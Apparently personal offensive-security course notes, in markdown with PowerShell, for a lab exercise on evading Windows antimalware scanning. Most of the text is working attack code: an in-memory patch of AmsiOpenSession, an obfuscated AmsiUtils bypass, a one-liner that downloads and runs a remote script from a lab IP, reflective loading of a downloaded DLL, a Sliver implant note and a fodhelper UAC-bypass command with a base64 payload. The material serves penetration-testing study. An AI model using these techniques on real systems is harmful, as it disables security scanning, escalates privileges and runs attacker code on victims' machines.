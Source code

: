 ```powershell

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

- Download from web server 
```powershell
 iex (New-Object Net.WebClient).DownloadString('http://192.168.45.176:8000/07AMSIBypass.ps1')
```

#### 7.4.2 Extra Mile

Create a similar AMSI bypass but instead of modifying the code of _AmsiOpenSession_, find a suitable instruction to change in _AmsiScanBuffer_ and implement it from reflective PowerShell.
- https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs
- https://github.com/rogdooley/OSEP-Code-And-Notes/blob/main/Windows/Powershell/ASBB.ps1

### 7.5.2

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

$data = (New-Object System.Net.WebClient).DownloadData('url to dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("<namespace.class>")
$method = $class.GetMethod("<method>")
$method.Invoke(0, $null)
```

- used sliver to start an implant on the Student instance
- forked a UAC Bypass implementation on github and added an Amsi Bypass class to it (https://github.com/rogdooley/SharpBypassUAC)
```shell
0execute-assembly /home/roger/Documents/Tools/SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIGM6XHVzZXJzXE9mZnNlY1xEb3dubG9hZHNcU0hZX1BSRVNTUk9PTS5leGU=
```

